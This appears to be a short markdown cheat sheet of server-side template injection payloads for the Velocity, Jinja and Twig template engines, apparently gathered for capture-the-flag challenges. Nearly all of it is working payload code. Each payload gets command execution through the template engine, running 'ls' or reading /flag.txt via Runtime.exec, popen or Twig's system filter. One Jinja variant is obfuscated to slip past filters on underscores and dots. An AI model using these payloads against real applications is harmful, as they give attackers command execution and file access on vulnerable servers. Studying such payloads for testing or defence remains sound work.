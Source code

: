 #### Velocity template Langauge payload:

```
#set($engine="string")#set($run=$engine.getClass().forName("java.lang.Runtime"))#set($runtime=$run.getRuntime())#set($proc=$runtime.exec("ls -al"))#set($null=$proc.waitFor())#set($istr=$proc.getInputStream())#set($chr=$engine.getClass().forName("java.lang.Character"))#set($output="")#set($string=$engine.getClass().forName("java.lang.String"))#foreach($i in [1..$istr.available()])#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))#end$output
```

#### Jinja payload <i>(Python)</i> : 

```py
#normal payload
 {{ ''.__class__.__base__.__subclasses__()[103].__init__.__globals__['sys'].modules['os'].popen("ls").read() }}

#payload without _\.
{%set c='%c%c'|format(95,95)%}{{dict|attr('mro')()|attr(c~'getitem'~c)(1)|attr(c~'subclasses'~c)()|attr(c~'getitem'~c)(221)|attr(c~'init'~c)|attr(c~'globals'~c)|attr(c~'getitem'~c)('sys')|attr('modules')|attr(c~'getitem'~c)('os')|attr('popen')('ls')|attr('read')()}}

#shortcuts
 {{ url_for.__globals__.os.popen("ls").read() }}
 {{ self.__init__.__globals__.__builtins__.open("/flag.txt").read() }}
 ```

### Twig

```py
{{['cat${IFS}/flag.txt']|filter('system')}}
```

![image](https://github.com/user-attachments/assets/d812c5f3-2f59-476a-a1e8-6a7ae978695a)

